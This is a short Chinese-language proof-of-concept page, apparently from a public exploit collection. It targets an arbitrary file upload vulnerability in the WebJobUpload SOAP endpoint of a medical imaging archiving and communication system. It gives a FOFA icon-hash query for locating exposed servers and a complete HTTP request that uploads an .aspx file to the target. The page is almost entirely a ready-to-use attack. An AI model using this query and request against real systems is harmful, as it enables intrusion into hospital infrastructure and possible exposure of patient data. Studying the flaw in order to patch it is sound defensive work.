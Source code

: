 ## 英飞达医学影像存档与通信系统WebJobUpload任意文件上传漏洞

## fofa
```
icon_hash="1474455751" || icon_hash="702238928"
```

![26c19e0fd94f9ed212609cbb142a5efc](https://github.com/wy876/POC/assets/139549762/06bbb356-9749-45e7-80bf-868a611936cb)

## poc
```
POST /webservices/WebJobUpload.asmx HTTP/1.1
Host: 0.0.0.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Length: 410
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
Soapaction: "http://rainier/jobUpload"
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<jobUpload xmlns="http://rainier">
<vcode>1</vcode>
<subFolder></subFolder>
<fileName>test.aspx</fileName>
<bufValue>dGVzdA==</bufValue>
</jobUpload>
</soap:Body>
</soap:Envelope>
```


![ee4dcedec011b388f84d3086e9b84fbd](https://github.com/wy876/POC/assets/139549762/1396d267-c32e-4452-af68-a2a4a9ba45ad)
